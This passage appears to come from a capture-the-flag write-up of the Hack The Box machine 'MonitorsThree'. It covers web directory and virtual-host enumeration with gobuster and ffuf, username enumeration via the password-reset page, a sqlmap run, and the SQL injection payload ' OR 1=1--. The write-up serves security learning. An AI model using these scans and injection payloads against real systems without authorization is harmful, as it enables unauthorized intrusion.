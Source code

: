 ## 80/monitorsthree.htb
```bash
# directory enum
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php -b 404,403 -o gobuster-80.out 
...
/login.php            (Status: 200) [Size: 4252]
/admin                (Status: 301) [Size: 178] [--> http://monitorsthree.htb/admin/]
/images               (Status: 301) [Size: 178] [--> http://monitorsthree.htb/images/]
/css                  (Status: 301) [Size: 178] [--> http://monitorsthree.htb/css/]
/index.php            (Status: 200) [Size: 13560]
/js                   (Status: 301) [Size: 178] [--> http://monitorsthree.htb/js/]
/.                    (Status: 200) [Size: 13560]
/fonts                (Status: 301) [Size: 178] [--> http://monitorsthree.htb/fonts/]
/forgot_password.php  (Status: 200) [Size: 3030]


```

```bash
# Vhost enum
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u $URL -H 'Host: FUZZ.monitorsthree.htb' -fs 13560
...
cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 27ms]

```

And we find a vhost - `cacti` to add to our enumeration scope and our /etc/hosts file.

Looking at the password recovery feature, we can enumerate the user `admin` as it gives us a different response if the user doesn't exist.... but we could have guessed that as a default username.

![](/Screenshots/MonitorsThree_image_1.png)

Lets take a look at this request with burpsuite.
![](/Screenshots/MonitorsThree_image_2.png)

POST request with a username parameter. We can try running sqlmap against it since we know it is checking for valid usernames.

I copied the contents of the request to a file and can then easily run sqlmap against it

```bash
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ sqlmap -r forgot_pass.req 
```

While waiting for sqlmap we can check manually, with the payload `' OR 1=1--` we're able to get an error message -- looks promising. 

![](/Screenshots/MonitorsThree_image_3.png)
